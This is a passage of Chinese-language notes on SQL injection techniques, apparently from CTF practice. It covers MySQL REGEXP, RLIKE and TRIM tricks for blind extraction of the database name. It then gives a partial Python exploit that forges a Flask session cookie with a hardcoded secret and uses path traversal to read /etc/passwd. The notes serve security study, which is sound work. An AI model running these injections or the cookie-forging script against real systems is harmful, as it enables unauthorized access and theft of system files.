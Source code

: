 ![image.png](./images/20231017_2354087960.png)<br />但是直接`字符串 regexp 正则表达式`是大小写不敏感的，需要大小写敏感需要加上`binary`关键字（`binary`不是`regexp`的搭档，需要把`binary`放到字符串的前面而不是`regexp`的前面，MySQL中`binary`是一种字符串类型）：
### rlike
和`regexp`一样
### trim([{BOTH | LEADING | TRAILING} [remstr] FROM string)
```plsql
SELECT TRIM(LEADING i FROM (select database())) = TRIM(LEADING i+1 FROM (select database()));
SELECT TRIM(LEADING i+2 FROM (select database())) = TRIM(LEADING i+1 FROM (select database()));
```
```plsql
#!/usr/bin/env python3
#-*- coding:utf-8 -*-
#__author__: 颖奇LAmore www.gem-love.com

import requests as req 
import os 
from urllib.parse import quote
import base64

def getsession(username):
    def getcmd(cmd):
        cmdpfx = '''python3 ./Y1ngTools/flask-session-cookie-manager/flask_session_cookie_manager3.py encode -s 'ookwjdiwoahwphjdpawhjpo649491a6wd949awdawdada' -t '''
        return cmdpfx + f''' "{cmd}" '''
    session = "{'islogin': True, 'pic': '../../../../../../etc/passwd', 'profiles': 'Administrator user, with the highest authority to the system', 'user': 'US3RN4ME'}"
    session = session.replace('US3RN4ME', username.replace("'", "\\'"))
    res = os.popen(getcmd(session)).read()
    return res.replace('\n', '')

def readfile(r):
    try:
        res = r.text.split('base64,')[1].split("\" width=")[0]
    except:
        print("不存在")
        exit(0)
    print(base64.b64decode(res.encode()).decode('utf-8'))

```